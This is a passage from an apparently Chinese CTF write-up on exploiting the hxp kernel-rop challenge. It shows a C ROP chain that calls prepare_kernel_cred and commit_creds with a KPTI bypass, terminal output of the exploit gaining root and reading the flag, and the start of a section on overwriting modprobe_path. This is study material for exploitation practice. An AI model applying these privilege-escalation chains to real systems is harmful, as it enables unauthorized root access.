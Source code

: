 泄露的payload结构如上，虽然，`kpti_pass`有会`pop rax`但是在返回后其值依然会恢复。

### Call prepare_kernel_cred() & commit_creds()

在我们泄露地址后，之后就是常规的ROP。在`commit_creds`返回`creds`后，依然要将其保存。因为之前进行`rax --> rdi`的gadget都不能用了。

```c
    payload[off++] = canary;
    payload[off++] = 0x0;                 // rbx
    payload[off++] = 0x0;                 // r12
    payload[off++] = 0x0;                 // rbp
    payload[off++] = pop_rdi;             // return address
    payload[off++] = 0;                 // rdi <- 0
    payload[off++] = prepare_kernel_cred;   // prepare_kernel_cred(0)
    payload[off++] = kpti_pass; // swwapgs_restore_regs_and_return_to_usermode
    payload[off++] = 0;           // dummy rax
    payload[off++] = 0;           // dummy rdi
    payload[off++] = (unsigned long)get_creds;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
```

### Get root shell !

```bash
/ $ id
uid=1000 gid=1000 groups=1000
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 320 bytes
[*] Cookie: a230d00be9113d00
[*] Prepared leak_commit_creds pa
    --> commit_creds: ffffffffb2a
[*] Prepared leak_prepare_kernel_
    --> prepare_kernel_cred: ffff
[*] Prepared call_prepare_kernel_
[*] get cred
[*] Prepared call_commit_creds pa
[*] Returned to userland
[*] UID: 0, got root!
/ # id
uid=0 gid=0
/ # cat /dev/sda
hxp{t0p_d3feNSeS_Vs_1337_h@ck3rs}
```

## Technique: Overwriting modprobe_path

> **什么是`modprobe`?**
>
>  “`modprobe` is a Linux program originally written by Rusty Russell and used to add a loadable kernel module to the Linux kernel or to remove a loadable kernel module from the kernel”
>
> 当我们安装或卸载一个内核模块时，`modprobe`就会被执行。而其默认路径`modprobe_path`就是`/sbin/modprobe`
